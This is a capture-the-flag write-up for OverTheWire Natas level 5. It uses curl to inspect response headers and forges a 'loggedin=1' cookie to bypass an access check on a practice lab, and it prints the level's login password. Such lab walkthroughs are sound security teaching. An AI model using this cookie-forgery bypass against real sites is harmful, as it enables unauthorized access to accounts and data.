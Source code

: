 # Natas Level 4 -> Level 5

## Description

Username: natas5  

URL:      http://natas5.natas.labs.overthewire.org

---

## Solution

Visit the url `http://natas5.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas5` and the password obtained from the previous challenge.

Once logged in we get an `Access disallowed` message.

![Natas 5 home page](img/../natas5_home.png)

Checking the source code does not give any new information.

In the previous challenge we looked at the `HTTP headers` so let's check them again.

Using `curl --head --user <USERNAME>:<PASSWORD> --url <URL>` syntax we can view the headers.

```
$ curl --head --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --url http://nata
s5.natas.labs.overthewire.org

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 23:55:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Content-Type: text/html; charset=UTF-8

```

We can see in the headers that there is a cookie being set.  
`Set-Cookie: loggedin=0`

Let's set `loggedin` to 1 and see what differences occur.
We can passed cookie data using the `--cookie` option in curl.

```
curl --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie "loggedin=1" --url http:/
/natas5.natas.labs.overthewire.org/
```

The response we get tells us Access granted and the password.
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is aGoY4q**************************</div>
</body>
</html>
```

The password for the next challenge is `aGoY4q**************************`.